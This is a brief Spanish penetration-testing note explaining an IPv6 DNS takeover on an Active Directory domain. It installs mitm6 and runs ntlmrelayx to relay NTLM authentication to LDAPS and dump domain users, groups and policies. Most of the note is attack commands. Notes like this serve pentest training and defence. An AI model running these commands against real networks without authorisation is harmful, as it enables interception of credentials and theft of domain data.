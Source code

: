 # IPv6 DNS Takeover via mitm6 

Tags: #AD #Attacks #IPv6 #DNS 

**Nota:** Este ataque solo se puede ejecutar en periodos cortos de 5 - 10 minutos. Ya que con mas tiempo este puede causar una interrupción en la red. 

```bash 
# Instalacion de mitm6
❯ cd /opt/mitm6
❯ pip2 install .
```

```bash 
1. Ejecutar la herramienta para aplicar el SMB Relay para IPv6
❯ ntlmrelayx.py -6 -t ldaps://IP -wh fakewpad.Domain.local -l lootme   # Nos creara un folder llamado 'loopme' donde podemos ver el 'LDAP Domain' que incluye: domain_computers, domain_groups, domain_policy, domain_users, etc...

2. Ejecutar el comando para ver eventos en el dominio
❯ mitm6 -d Domain.local 
``` 